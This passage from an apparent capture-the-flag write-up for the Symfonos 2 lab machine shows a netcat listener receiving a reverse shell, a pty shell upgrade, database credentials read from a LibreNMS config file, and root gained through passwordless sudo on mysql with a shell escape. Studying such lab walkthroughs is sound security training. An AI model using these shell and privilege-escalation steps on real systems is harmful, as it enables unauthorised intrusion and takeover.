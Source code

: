 ```console
root@kali:~$ nc -vlnp 1337
listening on [any] 1337 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.136] 36538
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
$ uname -a
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64 GNU/Linux
$ python -c 'import pty; pty.spawn("/bin/bash")'
cronus@symfonos2:/opt/librenms$ 
```

**MySQL Credentials**

Enumerating a little bit I find the MySQL access credentials from LibreNMS.

```console
cronus@symfonos2:/opt/librenms$ head config.php
<?php
## Have a look in defaults.inc.php for examples of settings you can set here. DO NOT EDIT defaults.inc.php!

### Database config
$config['db_host'] = 'localhost';
$config['db_port'] = '3306';
$config['db_user'] = 'librenms';
$config['db_pass'] = 'VLby8dGg4rvw33sg';
$config['db_name'] = 'librenms';
$config['db_socket'] = '';
```

### MySQL Sudo Rights

Checking the sudo permissions for the current user I find that the mysql binary is possible run it as sudo without password, to escalate privileges we just log in to mysql with the credentials **librenms:VLby8dGg4rvw33sg** and abuse the mysql feature of executing commands, so we invoke a hash and get root.

```console
cronus@symfonos2:/opt/librenms/html$ sudo -l                                                                                                                       
Matching Defaults entries for cronus on symfonos2:                                                                                                                 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                         
                                                                                                                                                                   
User cronus may run the following commands on symfonos2:                                                                                                           
    (root) NOPASSWD: /usr/bin/mysql

cronus@symfonos2:/opt/librenms/html$ sudo /usr/bin/mysql -u librenms -p              
Enter password: VLby8dGg4rvw33sg
MariaDB [(none)]> \! bash
root@symfonos2:/opt/librenms/html# id
uid=0(root) gid=0(root) groups=0(root)
```
